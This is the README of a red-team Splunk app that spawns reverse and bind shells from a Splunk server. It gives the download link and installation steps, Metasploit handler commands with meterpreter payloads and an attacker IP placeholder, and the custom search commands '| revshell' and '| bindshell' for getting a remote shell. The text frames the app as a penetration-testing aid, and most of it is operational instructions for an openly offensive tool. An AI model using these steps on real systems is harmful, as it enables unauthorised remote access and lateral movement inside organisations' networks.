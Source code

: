 Splunk Shells App
Version 1.1

TBG Security
Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

# Install
Download the release from https://github.com/MrJester/splunk_shells/releases/download/1.0/splunk_shells.tar.gz

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
Using each of these shells can be done from the Search and Reporting app. Setup a handler first then execute one of the following searches:

## Setup Metasploit Handler

use multi/handler<br>

Pick one of the below

set payload python/meterpreter_reverse_tcp<br>
set payload python/meterpreter_bind_tcp<br>
set payload python/shell_reverse_tcp<br>
set payload python/shell_bind_tcp<br>

set LHOST <ATTACKER IP><br>
set LPORT <ATTCKER PORT><br>
exploit -j<br>

## Bind Shell

'| bindshell SHELLTYPE PORTNUMBER' 

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a port number it defaults to 8888


## Reverse Shell

'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT'

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

ATTACKERIP - Specify the IP that you want to shell to be sent back to. 

ATTACKERPORT - Specify the port you want the shell to be sent back to.
